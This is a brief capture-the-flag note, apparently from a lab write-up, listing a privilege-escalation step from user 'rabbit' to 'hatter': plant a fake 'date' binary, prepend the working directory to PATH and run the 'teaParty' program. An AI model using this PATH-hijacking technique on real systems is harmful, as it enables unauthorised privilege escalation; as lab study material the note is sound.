 Privesc from rabbit to hatter:

1. upload date
2.
```bash
chmod +x date; export PATH="$(pwd):$PATH" &&  ./teaParty
```

